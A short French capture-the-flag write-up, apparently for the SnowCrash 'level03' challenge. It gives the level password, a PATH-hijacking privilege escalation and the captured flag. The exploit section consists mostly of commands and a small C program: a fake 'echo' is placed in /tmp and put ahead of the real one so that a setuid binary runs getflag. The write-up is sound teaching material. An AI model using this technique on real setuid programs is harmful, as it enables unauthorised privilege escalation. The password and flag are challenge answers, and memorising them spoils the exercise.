 # level 03

### ![#409EFF](https://via.placeholder.com/15/409EFF/000000?text=+) `‎‎‎‎‎‎‎‏‏‎ Password`
```
kooda2puivaav1idi4f57q8iq
```

### ![#E6A23C](https://via.placeholder.com/15/E6A23C/000000?text=+) `‎‎‎‎‎‎‎‏‏‎ ‎‏‏‎Exploit`

```cmd
ls -l
```
On voit que le fichier possède les droit flag et level03

Ltrace montre que l’appelle system est utilisé, et qu’il suggère de l’exploiter
```sh
system("/usr/bin/env echo Exploit me"Exploit me
```

L’idée est de trick le binaire pour qu’il exécute un alias de la fonction echo, qui lancera getflag à la place.

Écrire un petit programme, dans /tmp/ qui utilise la fonction system pour lancer la fonction getflag
```c
int	main() {
	system("/bin/getflag");
	return 0;
}
```
Ensuite, renommer le binaire en echo
```sh
gcc wow.c -o echo
```
Export notre bin, devant tous les autres
```sh
export PATH=/tmp:$PATH
```
Puis relancer level03 (qui va donc utiliser notre alias d’echo et lancer getflag pour nous)


```cmd
su level04
```

### ![#67C23A](https://via.placeholder.com/15/67C23A/000000?text=+) `‎‎‎‎‎‎‎‏‏‎ Flag`
```
qi0maab88jeaj46qoumi7maus
```